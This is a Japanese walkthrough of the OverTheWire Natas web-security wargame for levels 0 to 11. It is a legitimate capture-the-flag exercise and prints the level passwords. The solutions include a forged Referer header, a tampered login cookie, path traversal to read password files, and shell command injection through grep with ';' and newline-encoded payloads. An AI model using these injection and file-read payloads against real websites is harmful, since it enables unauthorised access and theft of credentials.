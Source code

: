# Natas - http://overthewire.org/wargames/natas/

Web Securiry!

## Level 0

http://natas0.natas.labs.overthewire.org アクセスするとusername: natas0, password: natas0

## Level 0>1

ソースの中にコメントアウトされたパスワードがある。

gtVrDuiDfck831PqWsLEZy5gyDz1clto
## Level 1>2

１つ前と同じだが、右クリックができないので最初にコンソールを開いた状態でアクセスする。

ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

## Level 2>3

ソースを見ると`file/pixel.png`というファイルがある。画像自体に意味はなかったが、 http://natas2.natas.labs.overthewire.org/files/ にアクセスすると`users.txt` がありその中にnatas3のパスワードがある

## Level 3>4

ソースに`<!-- No more information leaks!! Not even Google will find it this time... -->`とあり`robots.txt`だとあたりがついた。

http://natas3.natas.labs.overthewire.org/robots.txt にいくと、/s3cr3t/とあるので http://natas3.natas.labs.overthewire.org/s3cr3t/ にusers.txtがある

Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

## Level 4>5

```
Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
```
と言われるので natas5から来たように見せかける必要がある。

コンソールからGET index.phpのリクエストをcurl形式でコピーしする。

```
curl 'http://natas4.natas.labs.overthewire.org/index.php' -H 'Pragma: no-cache' -H 'Accept-Encoding: gzip, deflate, sdch' -H 'Accept-Language: ja,en-US;q=0.8,en;q=0.6' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.81 Safari/537.36' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Cache-Control: no-cache' -H 'Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va' -H 'Cookie: __cfduid=d5d2f7fba2a15d7664db136482e3d8d6b1493545265; __utma=176859643.511105113.1493545305.1493574933.1493581635.8; __utmb=176859643.35.10.1493581635; __utmc=176859643; __utmz=176859643.1493545305.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none)' -H 'Connection: keep-alive' -H 'Referer: http://natas4.natas.labs.overthewire.org/' --compressed
```

で、Refererをnatas5にすればok

iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

## Level 5>6

リクエストをcurlコピーすると以下である。
```
curl 'http://natas5.natas.labs.overthewire.org/index.php' -H 'Pragma: no-cache' -H 'Accept-Encoding: gzip, deflate, sdch' -H 'Accept-Language: ja,en-US;q=0.8,en;q=0.6' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.81 Safari/537.36' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Cache-Control: no-cache' -H 'Authorization: Basic bmF0YXM1OmlYNklPZm1wTjdBWU9RR1B3dG4zZlhwYmFKVkpjSGZx' -H 'Cookie: loggedin=0' -H 'Connection: keep-alive' --compressed
```

`Cokkie: loggedin=0`を1にするだけ。

aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

## Level 6>7

ソース中の
```
<?
include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```
から、 http://natas6.natas.labs.overthewire.org/includes/secret.inc にsecretがあるのでこれを提出。

## Level 7 > 8

ヒントにある`/etc/natas_webpass/natas8`をパラメータに入れる。

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

## 8 > 9

```
<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```

encodeSecret()の逆をやれば良いので、サンドボックスかどこかで
```
echo base64_decode(strrev(hex2bin($encodedSecret)));
```

とすると、`oubWYf2kBq`が得られ、提出すればok

W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

## 9 > 10

source code から入力した文字列を `passthru("grep -i $key dictionary.txt");`の$keyに代入して実行している。※paththruはコマンド実行関数

セミコロンで無理やりコマンドを止めて、そのあとに任意のコマンドを実行できるので

```
; cat /etc/natas_webpass/natas10
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

## 10 > 11

さっきと似たような問題だが、`;`, `|`, `&`がエスケープされている。これを回避できれば良い。

最初に改行コードLF(0xA)を入れることで回避できる。

https://ja.wikipedia.org/wiki/%E6%94%B9%E8%A1%8C%E3%82%B3%E3%83%BC%E3%83%89


```
%0Acat /etc/natas_webpass/natas11
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

## 11 > 12
